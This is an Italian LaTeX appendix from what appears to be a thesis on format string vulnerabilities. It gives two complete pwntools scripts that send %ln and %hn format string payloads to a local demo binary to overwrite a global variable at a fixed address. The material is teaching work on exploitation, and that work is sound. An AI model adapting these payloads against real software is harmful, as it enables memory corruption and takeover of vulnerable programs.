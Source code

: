 \chapter{Codice sorgente}\label{app:source}
In questa appendice sono raccolte, nella loro forma completa, le parti di codice che nel corpo del testo sono state mostrate solo tramite estratti o, nel caso del programma discusso nel Capitolo~\ref{chapter:exploit}, tramite il solo codice decompilato. Non introducono alcuna tecnica nuova rispetto a quanto già spiegato: assemblano soltanto per intero ciò che nelle sezioni indicate in ciascuna didascalia è stato costruito un pezzo alla volta. 


\section{Script del Capitolo~\ref{chapter:fmt_vuln}}\label{sec:app_cap2}
Il Codice~\ref{lst:app_write_script} riporta la versione completa dello script per la scrittura di \texttt{global\_secret} tramite \texttt{\%ln}, il cui frammento essenziale --- la costruzione del payload --- è già mostrato nel Codice~\ref{lst:python_write} (Sezione~\ref{sec:mem_write}).
\begin{lstlisting}[
    language=Python,
    gobble=4,
    caption={Script completo per la scrittura di \texttt{global\_secret} con \texttt{\%ln} (Sezione~\ref{sec:mem_write})},
    label={lst:app_write_script}
]
    from pwn import *

    exe = ELF('./write_demo')
    context.binary = exe
    io = exe.process()

    payload = b'%4919x' \
                + b'%8$ln' \
                + b'\x00' * 5 \
                + p64(0x404050)
    io.sendline(payload)

    io.interactive()
\end{lstlisting}

Il Codice~\ref{lst:app_partial_write_script} riporta la versione completa dello script per la scrittura parziale di \texttt{global\_secret} tramite \texttt{\%hn}, il cui frammento essenziale è già mostrato nel Codice~\ref{lst:python_partial_write} (Sezione~\ref{sec:partial_write}).
\begin{lstlisting}[
    language=Python,
    gobble=4,
    caption={Script completo per la scrittura parziale di \texttt{global\_secret} con \texttt{\%hn} (Sezione~\ref{sec:partial_write})},
    label={lst:app_partial_write_script}
]
    from pwn import *

    exe = ELF('./write_demo')
    context.binary = exe
    io = exe.process()

    payload = b'%48879x' + b'%10$hn' \
                + b'%8126x' + b'%11$hn' \
                + b'\x00' * 7 \
                + p64(0x404050) \
                + p64(0x404050 + 2)            
    io.sendline(payload)

    io.interactive()
\end{lstlisting}


